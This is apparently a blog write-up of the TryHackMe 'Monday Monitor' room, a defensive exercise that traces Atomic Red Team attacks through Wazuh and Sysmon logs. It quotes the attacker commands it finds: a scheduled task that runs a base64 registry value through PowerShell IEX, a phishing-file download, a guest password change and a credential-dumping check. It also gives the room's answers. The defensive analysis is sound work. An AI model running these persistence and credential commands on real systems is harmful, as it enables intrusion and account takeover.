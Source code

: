 ```yaml
---
title: "TryHackMe: Monday Monitor"
author: Kleiner
categories: [TryHackMe]
tags: [windows, Wazuh, Sysmon]
render_with_liquid: false
media_subpath: /images/thm_monday_monitor/
image:
  path: room_icon.png
---
```


[![Tryhackme Room Link](monday_monitor_img.png){: width="600" height="300" .shadow}](https://tryhackme.com/room/mondaymonitor){: .center }

## Scenario

Swiftspend Finance, the coolest fintech company in town, is on a mission to level up its cyber security game to keep those digital adversaries at bay and ensure their customers stay safe and sound.

Led by the tech-savvy Senior Security Engineer John Sterling, Swiftspend's latest project is about beefing up their endpoint monitoring using Wazuh and Sysmon. They've been running some tests to see how well their cyber guardians can sniff out trouble. And guess what? You're the cyber sleuth they've called in to crack the code!

The tests were run on Apr 29, 2024, between 12:00:00 and 20:00:00. As you dive into the logs, you'll look for any suspicious process shenanigans or weird network connections, you name it! Your mission? Unravel the mysteries within the logs and dish out some epic insights to fine-tune Swiftspend's defences.

Once logged in, navigate to the **Security** events module and use the saved query **`Monday_Monitor`** to access the logs.

## Approach

We head over to the dashboard and view the data present to us. Press the **Floppy Disk** icon to apply the **`Monday_Monitor`** filter. We also need to set the timeline to **Apr 29, 2024, between 12:00:00 and 20:00:00**. 

We filter out the following attributes as columns in the table:  **data.win.eventdata.commandLine, eventdata.parentCommandLine** because these attributes provide critical insights into the exact commands executed by a process and its parent. This helps trace the origin and propagation of potentially malicious activity, such as identifying the initial vector (e.g., a downloaded file execution) and understanding the chain of process creation that led to system compromise.

![Approach](add_column.png)

Note: The questions for this task are not answered in order as the solutions were found by going through logs and noticing the anomalies within those logs along the way. 

#### Question 7: Data was exfiltrated from the host. What was the flag that was part of the data?

After adding the columns into the table, we noticed that there is a flag hidden among the commandLine columns. (If you didn't scroll too fast!)

![Q7](q7.png)

From this log we know that the threat actor achieved his goal at 14:56 PM.

#### Question 5: What password was set for the new user account?

![Q5](q5.png)

The command **C:\Windows\system32\net1 user guest I_AM_M0NIT0R1NG** indicates that the password for the guest user account was changed to I_AM_M0NIT0R1NG. This is based on the syntax of the net user command, which follows the format **`net user <username> <new_password>`**.

#### Question 2: What is the full command run to create a scheduled task?

At time 14:12:43, we noticed a very interesting command line, inclduding the parent command line.

As you have noticed, the approach is done by slowly working backwards and discovering the anomalies as we go along. 

![Q2](q2.png)

We noticed the **schtask.exe** command here which is responsible for scheduling tasks.

The full command is the parent command line here in the snapshot.

Solution: \"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f &amp; schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"

#### Question 3: What time is the scheduled task meant to run?

The scheduled time is found in the parent command line from question 2, which is **12:34** PM.

#### Question 1: Initial access was established using a downloaded file. What is the file name saved on the host?

At time 13:50:12, we noticed a rather suspicious command line.

![Q1](q1.png)

The command **`$url ='http://localhost/SwiftSpend_Financial_Expenses.xlsm'`** sets a variable $url with the address of the file to download. The file is hosted on localhost, meaning the threat actor might have set up a local web server. The file type .xlsm is an Excel macro-enabled spreadsheet, often used in phishing.

The part **`Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm`** downloads the file from $url and saves it as PhishingAttachment.xlsm in the system's temp directory. However, the task only accept the answer ***`SwiftSpend_Financial_Expenses.xlsm'`** which is the host file instead o the saved file, when the saved file is requested.

#### Question 6: What is the name of the .exe that was used to dump credentials?

I thought this was a easy question and assumed the answer was mimikatz.exe, as this malware is a popular an exploit on Microsoft Windows that extracts passwords stored in memory and software that performs that exploit.

![Q6](q6.png)

After going through a long long time of scrolling and testing other executables found in the logs, I stumbled upon the command **`\"powershell.exe\" &amp; {$mimikatz_path = cmd /c echo C:\\Tools\\AtomicRedTeam\\atomics\\T1003.001\\bin\\x64\\memotech.exe if (Test-Path $mimikatz_path) {exit 0} else {exit 1}}`** 

The command uses PowerShell to verify whether the memotech.exe binary—commonly used in Atomic Red Team simulations of credential dumping (T1003.001)—is present at the specified path. It exits with code 0 if the file exists, or 1 otherwise, making it suitable for scripting and automated test validation.

#### Question 4: What was encoded?

It took quite some time until I finally decided to look for online solution. I was indeed frustrated when the solution was just right infront of my eyes. 

From the parent command line in Question 2, there is a string which appears to be an encoding of base 64. 

```console
reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f
```

This commands adds a string (**REG_SZ**) to the registry at **HKCU\SOFTWARE\ATOMIC-T1053.005**. The value name is **test** with the data **`cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0`**. Using Cyberchef, the base64 decodes to **`ping www.youarevulnerable.thm`** , which is the solution to Question 4. 

